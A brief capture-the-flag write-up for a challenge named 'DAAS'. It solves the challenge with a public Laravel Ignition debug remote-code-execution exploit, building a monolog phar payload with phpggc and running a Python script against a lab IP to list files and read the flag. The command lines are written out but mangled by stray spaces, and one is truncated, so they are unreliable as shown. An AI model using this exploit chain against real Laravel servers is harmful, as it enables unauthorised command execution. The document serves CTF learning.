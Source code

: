 ### DAAS

#### Write UP

- We are given a website, which hosts basic laravel documentation.
- So, I search on web for known larabel exploits and luckily I found one.
- The exploit uses laravel session cookies and creates remote command execution.
- I used the rce file available on https://www.ambionics.io/blog/laravel-debug-rce
- We follow the instructions mentioned there, and download phpggc.
- We use the following commands to get the flag. -`php - d'phar.readonly=0' phpggc/phpggc - -phar phar - f - o exploit.phar monolog/rce1 system 'ls'` : This will create a exploit file for execution.
  - `python3 laravel-ignition-rce.py http: // 138.68.168.137: 30335 / exploit.phar` : This will execute the commands on the server/
  - `phar.readonly=0' phpggc/phpggc - -phar phar - f - o exploit.phar monolog/rce1 system 'cat ../../flagipiHi'` : On exploring further, we found the flag.txt file
  - `python3 laravel-ignition-rce.py http: // 138.68.168.137: 30335 / exploit.phar` : This will execute the commands on the server/
  - And we got the flag.
